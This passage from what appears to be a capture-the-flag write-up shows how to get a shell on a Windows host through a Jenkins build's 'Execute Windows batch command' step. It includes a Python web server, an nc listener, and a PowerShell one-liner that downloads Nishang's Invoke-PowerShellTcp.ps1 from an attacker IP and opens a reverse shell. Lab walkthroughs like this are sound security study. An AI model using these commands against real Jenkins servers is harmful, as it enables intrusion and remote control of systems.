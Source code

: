 To do this task, we need to find a place in which we can put commands to execute. In the Jenkins project, we can configure the build. So, if we enter in the project section, in the menù on the side we have the **Configure** voice:

![Configure section](/assets/img/posts/alfred/config_build.png)


If we enter this section, we have many configurations, but what interested us is the **"Build"** section at the bottom of the page. In particular, in this section, we see the "Execute Windows batch command" area in which we can put command.

Before inserting a command, we need to run a python server and a listener. Indeed, we need the python server because of the command that we will use to download a PowerShell script to execute a reverse shell to our listener.
So, we copy the script Invoke-PowerShellTcp.ps1 (that you can find [here](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)) in the folder from which we run our python server and, then we start the server:
```
python -m SimpleHTTPServer 8000
```

Then, we start a listener:
```
rlwrap nc -nlvp 5555
```

Now, in the "Execute Windows batch command" area, we put the following command:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.80.159:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.80.159 -Port 5555
```
